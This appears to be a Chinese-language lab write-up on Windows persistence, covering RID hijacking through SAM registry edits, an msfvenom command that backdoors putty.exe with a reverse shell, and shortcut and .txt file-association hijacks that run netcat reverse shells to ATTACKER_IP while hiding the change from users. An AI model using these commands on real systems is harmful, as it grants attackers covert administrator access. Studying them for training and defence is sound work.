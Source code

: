 ### RID劫持

这让我不禁想起 AD中的sid history劫持

**创建用户时，将为其分配一个名为相对 ID （RID） 的标识符。RID 只是一个数字标识符，表示整个系统中的用户。当用户登录时，LSASS 进程从 SAM 注册表配置单元获取其 RID，并创建与该 RID 关联的访问令牌。如果我们可以篡改注册表值，我们可以通过将相同的 RID 关联到两个帐户来使 Windows 将管理员访问令牌分配给非特权用户。**

在任何 Windows 系统中，默认管理员帐户分配的 RID = 500，普通用户通常具有 RID >= 1000。

	wmic useraccount get name,sid

reg path

	HKLM\SAM\SAM\Domains\Account\Users\

每个用户都有一个密钥的位置。由于我们要修改 thmuser3，我们需要搜索一个 RID 的十六进制 （1010 = 0x3F2） 键。在对应的键下，会有一个名为 F 的值

**请注意，RID 是使用小端表示法存储的，因此其字节显示为反向。**

我们现在将这两个字节替换为十六进制 （500 = 0x01F4） 的管理员 RID，并切换字节 （F401），将原始值更改为此值，即可获得与管理员相同的权限

## BackDoor

metasploit生成后门文件

	msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe

### 快捷方式劫持

在劫持快捷方式的目标之前，让我们在或任何其他偷偷摸摸的位置创建一个简单的 Powershell 脚本。该脚本将执行反向 shell，然后从快捷方式属性上的原始位置运行 calc.exe

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\System32\calc.exe
```

msf生成payload也可以

最后，我们将更改快捷方式以指向我们的脚本。请注意，执行此操作时，快捷方式的图标可能会自动调整。请务必将图标指向原始可执行文件，以便用户不会看到任何可见的更改。

	powershell.exe -WindowStyle hidden backdoor.ps1

### 文件关联劫持

我们还可以劫持任何文件关联，以强制操作系统在用户打开特定文件类型时运行 shell。

默认的操作系统文件关联保存在注册表中，HKLM\Software\Classes\其中存储了 下每个文件类型的密钥。假设我们要检查哪个程序用于打开.txt文件;我们可以去检查子项，并找到与之关联的编程 ID（ProgID）。ProgID 只是系统上安装的程序的标识符。

![在这里插入图片描述](https://img-blog.csdnimg.cn/8b028f4de8c94e9e8ba559359f588762.png)

然后我们可以搜索相应 ProgID 的子项（也在HKLM\Software\Classes\下 ），在这种情况下， txtfile ，我们将在其中找到对负责处理.txt文件的程序的引用。大多数 ProgID 条目都有一个子项，其中shell\open\command指定了要为具有该扩展名的文件运行的默认命令：

![在这里插入图片描述](https://img-blog.csdnimg.cn/e36fc4a64b8f4af09511b6082da9e21f.png)

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
